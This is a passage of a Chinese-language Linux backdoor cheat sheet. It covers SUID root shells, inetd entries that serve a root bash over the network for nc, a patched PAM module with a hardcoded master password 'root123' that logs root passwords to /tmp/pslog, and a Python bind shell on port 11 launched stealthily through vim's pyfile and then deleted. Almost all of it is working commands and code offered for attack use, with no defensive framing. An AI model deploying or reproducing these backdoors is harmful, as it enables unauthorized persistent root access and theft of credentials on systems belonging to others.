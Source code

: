 ```bash
# 使用 -p 参数来获取一个 root shell. 这个 euid 的意思是 effective user id
# 这里要特别注意的是,作为一个普通用户执行这个 SUID shell 时,一定要使用全路径.
```
如何查找那些具有 SUID 的文件: `dawg:~# find / -perm +4000 -ls` 这时就会返回具有 SUID 位的文件啦.

**远程后门**

```vim
vim /etc/inetd.conf
    #discard stream tcp nowait root internal
    #discard dgram udp wait root internal
    daytime stream tcp nowait root /bin/bash bash -i

inetd
然后就可以用 nc 来爆菊
```
可以修改/etc/services文件,加入以下的东西
```vim
vim /etc/services
    woot 6666/tcp #evil backdoor service
vim /etc/inetd.conf
    woot stream tcp nowait root /bin/bash bash -i
```

**PAM 后门**

主要思路:pam_unix_auth.c 打补丁安装到正常的 PAM 模块中.
1、获取目标系统所使用的 PAM 版本:
`rpm -qa |grep pam`
2、编译安装 PAM
3、将本地 pam_unix_auth.c 文件通过打补丁方式,编译生成.
4、编译完后的文件在:modules/pam_unix/.libs/pam_unix.so,后门密码为 root123,并会在 /tmp/pslog 记录 root 登录密码.

**vim 后门**

此方法适用于安装了 vim 且安装了 python 扩展(绝大版本默认安装)的 linux 系统,至于恶意脚本 dir.py 的内容可以是任何功能的后门.如 python 版本的正向后门监听 11 端口.

检测有无扩展
```bash
vim --version | grep python
```

enter the mal script directory 、execute the script and then remove the script
`cd /usr/lib/python2.7/site-packages`

```python
vim dir.py
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
`$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py`
